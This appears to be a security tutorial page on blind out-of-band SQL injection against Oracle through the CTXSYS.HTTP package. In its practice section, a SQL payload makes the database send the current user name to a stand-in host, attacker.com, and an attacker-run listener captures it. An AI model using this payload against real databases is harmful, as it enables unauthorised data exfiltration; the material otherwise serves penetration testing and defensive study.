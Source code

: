 ```yaml
---
title: 'CTXSYS.HTTP: Exploiting Blind Out-of-Band SQL Injection'
description: Learn how to exploit CTXSYS.HTTP in Oracle for blind out-of-band SQL
  injection.
keywords:
- CTXSYS.HTTP
- Oracle
- blind SQL injection
- out-of-band
- SQL injection
- data exfiltration
- database vulnerabilities
- HTTP requests
---
```


# CTXSYS.HTTP

## Context

This article explores the exploitation of the `CTXSYS.HTTP` package for conducting blind out-of-band SQL injection attacks on Oracle databases. Readers should be familiar with HTTP headers, web form structures, and basic Oracle SQL injection techniques. This guide will focus on extracting information by triggering HTTP requests from the database to an attacker's server using SQL injection methods.

## Theory

### CTXSYS.HTTP Functionality

The `CTXSYS.HTTP` package in Oracle is a powerful tool used for making HTTP requests from within the database. It's primarily used to send HTTP requests to external servers, a feature that attackers can exploit under certain conditions. By crafting specific SQL injection payloads, an attacker can manipulate this package to send HTTP requests to an attacker-controlled server, thereby facilitating data exfiltration or verification of injection success without directly returning data to the application user.

### Blind Out-of-Band SQL Injection

Blind out-of-band SQL injection is a technique where the attacker does not directly receive the data they want to extract. Instead, they induce the vulnerable application to send data to an external domain controlled by the attacker. This is particularly useful when the direct output of queries is not possible due to application constraints or when traditional blind SQL injection techniques (like boolean-based or time-based) are too slow or difficult. 

In the context of Oracle databases, exploiting the `CTXSYS.HTTP` package for blind out-of-band SQL injection involves crafting payloads that cause the database to access URLs that include the data to be exfiltrated. Once the URL is accessed, the attacker monitors their server to capture this outbound HTTP request, thereby obtaining the desired information off-band.

## Practice

### Exploiting CTXSYS.HTTP for Blind Out-of-Band SQL Injection

To exploit the `CTXSYS.HTTP` package for blind out-of-band SQL injection, follow these steps:

- **Identify Injectable Parameters:**
  - Begin by identifying fields within the Oracle database application that are vulnerable to SQL injection. This may involve testing input fields, URL parameters, or other input vectors susceptible to SQL injection.

- **Inject the Payload:**
  - Once a vulnerable parameter is identified, use the following SQL command to trigger an HTTP request from the database:

    ```sql
    SELECT CTXSYS.HTTP('http://attacker.com/'||(SELECT user FROM dual)) FROM dual;
    ```

  - In this command, `SELECT user FROM dual` extracts the current database user, and `http://attacker.com/` should be replaced with the attacker's server URL, where the HTTP request will be sent.

- **Monitor the Attacker-Controlled Server:**
  - Set up an HTTP server, such as using a simple Python HTTP server or a more sophisticated tool like Burp Suite, to listen for incoming connections. This server will capture any HTTP requests sent by the database, including the appended data.

### Outcome

By following this technique, data such as usernames or other query results can be exfiltrated from the Oracle database to an attacker's server via HTTP requests. This method is particularly effective in scenarios where direct data retrieval is not possible due to application constraints or defensive measures in place.

## Tools

- **Burp Suite**: A comprehensive suite of tools used for analyzing web applications and detecting injection points.
- **SQLMap**: An automated SQL injection and database takeover tool that can be used to detect injectable fields and facilitate SQL exploratory testing.